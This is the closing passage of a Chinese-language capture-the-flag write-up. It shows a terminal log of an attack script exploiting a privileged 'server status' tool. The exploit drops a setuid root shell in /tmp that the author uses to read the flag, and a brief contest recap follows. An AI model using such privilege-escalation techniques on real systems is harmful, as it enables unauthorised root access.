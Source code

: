 運行結果:
```
hacker@f347792128f8:~$ ./final_attack.sh
=== Server Status Monitor v1.0 ===
System diagnostic tool with root privileges

Running with elevated privileges (UID: 0, GID: 0)
Initializing...
Hacking Nasa...
*Found dynamic key: 0x0002216f, launching attack!
********************ls: cannot access '/tmp/rootshell': No such file or directory
hacker@f347792128f8:~$ *******************
Done!
=== Command Output ===
=== End of Output ===

System status check completed successfully!
^C
hacker@f347792128f8:~$ /tmp/rootshell -p
cat /flag
rootshell-5.1# ls
creator    exploit    exploit_final    final_attack.sh  race_final.sh  read_shm_v2.c  writer
creator.c  exploit.c  exploit_final.c  race.sh          read_shm_v2    server_status  writer.c
rootshell-5.1# cd /
rootshell-5.1# ls
bin  boot  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  userid  usr  var
rootshell-5.1# cat flag
NHNC{WTF_NEVER_MADE_Challenges_at_night_especially_when_u_r_sleepy_e98525ca34b243ef9c315a1a0861f1cf}rootshell-5.1#
```

## 總結

很幸運搶下所有台灣隊裡面的第一名，當然也不排除厲害的都去出題，總題難度比AIS3 Pre-exam 高上不少，這三天跟隊友24小時不間斷在打題目，白天組解不出來的題目腕上組繼續接手打。

![image](https://hackmd.io/_uploads/ryj6rLKHll.png)
![image](https://hackmd.io/_uploads/r1NKXqj8gl.png)


